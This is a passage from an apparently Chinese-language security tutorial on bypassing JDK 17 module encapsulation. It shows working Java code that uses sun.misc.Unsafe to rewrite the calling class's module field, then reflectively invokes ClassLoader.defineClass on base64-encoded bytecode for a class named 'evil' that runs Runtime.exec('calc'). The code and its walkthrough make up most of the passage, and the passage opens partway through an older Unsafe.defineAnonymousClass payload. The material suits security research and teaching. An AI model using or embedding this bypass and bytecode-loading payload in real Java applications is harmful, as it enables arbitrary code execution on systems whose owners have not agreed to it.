7EAAQAAAAkADAAFAAMADQAAABYABQAAAAgACQALAAwACQANAAoAFgAMAA4AAAAMAAEADQAJABIAEwAAABQAAAAHAAJMBwAVCQABABYAAAACABc=";
        byte[] decode = Base64.getDecoder().decode(payload);
        Field theUafeField=Unsafe.class.getDeclaredField("theUnsafe");
        theUafeField.setAccessible(true);
        Unsafe unsafe= (Unsafe) theUafeField.get(null);
        Class<?> c2=unsafe.defineAnonymousClass(java.lang.Class.forName("java.lang.Class"),decode,null);
        c2.newInstance();
    }

}
```



但是在 JDK17，一个方法都没有了，都被删除了


所以使用 unsafe 去加载字节码是不可以了

但是sun.misc和sun.reflect包下的我们是可以正常反射的，所以有个关键的类就可以拿来用来，就是 Unsafe 这个类

那我们可以尝试利用Unsafe来修改当前类的module属性和 java.\* 下类的 module 属性一致来绕过

Unsafe类中有个 getAndSetObject 方法，其和反射赋值功能差不多，利用这个修改调用类的 module

或者 putObject 方法都是可以的

## 具体实现+调试分析

首先给出我们的 payload

```
import sun.misc.Unsafe;

import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.Base64;


public class UnsafeTest {

    public static void main(String[] args) throws Exception {
        String payload = "yv66vgAAAD0AJwoAAgADBwAEDAAFAAYBABBqYXZhL2xhbmcvT2JqZWN0AQAGPGluaXQ+AQADKClWCgAIAAkHAAoMAAsADAEAEWphdmEvbGFuZy9SdW50aW1lAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwgADgEABGNhbGMKAAgAEAwAEQASAQAEZXhlYwEAJyhMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwcAFAEAE2phdmEvaW8vSU9FeGNlcHRpb24HABYBABpqYXZhL2xhbmcvUnVudGltZUV4Y2VwdGlvbgoAFQAYDAAFABkBABgoTGphdmEvbGFuZy9UaHJvd2FibGU7KVYHABsBAARldmlsAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBAAZMZXZpbDsBAAg8Y2xpbml0PgEAAWUBABVMamF2YS9pby9JT0V4Y2VwdGlvbjsBAA1TdGFja01hcFRhYmxlAQAKU291cmNlRmlsZQEACWV2aWwuamF2YQAhABoAAgAAAAAAAgABAAUABgABABwAAAAvAAEAAQAAAAUqtwABsQAAAAIAHQAAAAYAAQAAAAUAHgAAAAwAAQAAAAUAHwAgAAAACAAhAAYAAQAcAAAAZgADAAEAAAAXuAAHEg22AA9XpwANS7sAFVkqtwAXv7EAAQAAAAkADAATAAMAHQAAABYABQAAAAgACQALAAwACQANAAoAFgAMAB4AAAAMAAEADQAJACIAIwAAACQAAAAHAAJMBwATCQABACUAAAACACY=";
        byte[] decode = Base64.getDecoder().decode(payload);
        Field theUafeField=Unsafe.class.getDeclaredField("theUnsafe");
        theUafeField.setAccessible(true);
        Unsafe unsafe= (Unsafe) theUafeField.get(null);
        Module baseModule=Object.class.getModule();
        Class<?> currentClass= UnsafeTest.class;
        long addr=unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));
        unsafe.getAndSetObject(currentClass,addr,baseModule);
        Method defineClass = ClassLoader.class.getDeclaredMethod("defineClass", String.class, byte[].class, int.class, int.class);
        defineClass.setAccessible(true);
        Class<?> calc= (Class<?>) defineClass.invoke(ClassLoader.getSystemClassLoader(), "evil", decode, 0, decode.length);
        calc.newInstance();
    }

}
```

运行  


可以看见没有报错，而且弹出了计算器



因为我们的unsafe 符合

```
declaringModule.isOpen(pn, callerModule)
```

这也是我们利用它的原因之一



这一步就是我们修改 moulde 的主要逻辑

我们把当前类的 moule 修改为 object 的 moudle  


一样返回了 ture

成功绕过了限制
